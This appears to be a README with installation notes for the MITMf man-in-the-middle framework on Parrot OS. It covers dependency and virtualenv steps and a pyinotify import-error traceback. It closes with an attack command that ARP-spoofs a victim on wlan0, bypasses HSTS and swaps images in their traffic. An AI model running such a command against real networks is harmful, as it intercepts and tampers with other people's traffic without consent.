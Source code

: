 # install in parrot

<ol>
  <li>sudo su</li>
    <li>apt-get install python-dev python-setuptools libpcap0.8-dev libnetfilter-queue-dev libssl-dev libjpeg-dev libxml2-dev libxslt1-dev libcapstone3 libcapstone-dev libffi-dev file</li>
      <li>apt-get install libcapstone4</li>
       <li>pip install virtualenvwrapper</li>
        <li>source /usr/local/bin/virtualenvwrapper.sh</li>
         <li>nano ~/.bashrc "enter", paste it at the end of the text without quotes..</li>
⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️⬇️
  
  "VIRTUALENVWRAPPER_PYTHON=/usr/bin/python3.9"
  "source /usr/local/bin/virtualenvwrapper.sh" 
 
  
  <li>source ~/.bashrc</li>

  <li>mkvirtualenv MITMf -p /usr/bin/python2.7</li>
  
  <li>git clone https://github.com/byt3bl33d3r/MITMf</li>
  
  <li>cd MITMf && git submodule init && git submodule update --recursive</li>
  
  <li>pip install -r requirements.txt</li>
  
  <li>python mitmf.py --help</li>
  
  </ol>
  
  #ERROR
  Traceback (most recent call last):
  File "mitmf.py", line 29, in <module>
    import core.responder.settings as settings
  File "/home/crypto/programas/MITMf/core/responder/settings.py", line 24, in <module>
    from core.configwatcher import ConfigWatcher
  File "/home/crypto/programas/MITMf/core/configwatcher.py", line 20, in <module>
    import pyinotify
ImportError: No module named pyinotify
-----------------------------------------------------
  !mkvirtualenv MITMf -p /usr/bin/python2.7
  !RUN python mitmf.py --help
                 
python mitmf.py -i wlan0 --spoof --arp --hsts --gateway <ip-router> --target <ip-victim> --imgrand --img-dir <Directory with images> /root/img/
